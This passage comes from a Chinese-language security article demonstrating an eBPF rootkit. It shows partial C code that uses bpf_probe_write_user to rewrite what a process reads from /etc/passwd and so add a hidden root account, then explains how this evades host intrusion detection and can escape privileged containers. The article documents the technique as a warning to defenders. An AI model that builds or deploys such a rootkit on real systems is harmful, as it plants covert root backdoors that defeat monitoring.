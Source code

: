 ```null
            for (unsigned int i = 0; i < MAX_PAYLOAD_LEN; i++) {
                if (i >= payload_passwd_len) {
                    local_buff[i] = ' ';
                }
                else {
                    local_buff[i] = payload_passwd[i];
                }
            }
        }
        break;
    case FILE_TYPE_SHADOW:
        
        ...
        break;
    case FILE_TYPE_SUDOERS:
        
        ...
        break;
    default:
        return 0;
        break;
    }

    
    ret = bpf_probe_write_user((void*)buff_addr, local_buff, MAX_PAYLOAD_LEN);
    

    return 0;
}
```

按照如上demo rootkit的设计，即完成了随机用户名密码的root账号添加。在鉴权认证上，也可以配合`eBPF网络层恶意利用`的demo，利用eBPF map交互，实现相应鉴权。 但rootkit本身并没有更改硬盘上文件，不产生风险行为。并且，只针对特定进程的做覆盖，隐蔽性更好。整个流程如下图：  
![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/10/3cd2e298-c423-4c61-a372-2affd329396c.jpeg?raw=true)

不管是在物理机上，还是给了root+BPF权限的容器上，都一样生效。

### 视频演示

### 危害

云原生场景下，赋予`SYS_ADMIN`的权限的容器场景很多，若配合近期的`JAVA log4j`漏洞，直接击穿容器，拿到宿主机权限，是不是很可怕？

然而，比这可怕的是这种rootkit本身并没有产生用户态行为日志，也没有改文件，系统里查不到这个用户信息。整个后门行为不产生数据，让大部分HIDS失灵。

综述
--

从笔者演示的这两个场景可以来看，大家已经知道eBPF技术被恶意利用的危害。其实，这只是eBPF技术的冰山一角，在kproeb\\uprobe上也有很多功能，比如实现进程隐藏，无痕内网扫描等等。相关恶意利用可参考[Bad BPF – Warping reality using eBPF](https://blog.tofile.dev/2021/08/01/bad-bpf.html)一文。

若入侵者精心设计rootkit，实现进程隐藏等，让rootkit更加隐蔽，按照本文的思路，实现一个幽灵般的后门，想想就让人后怕。
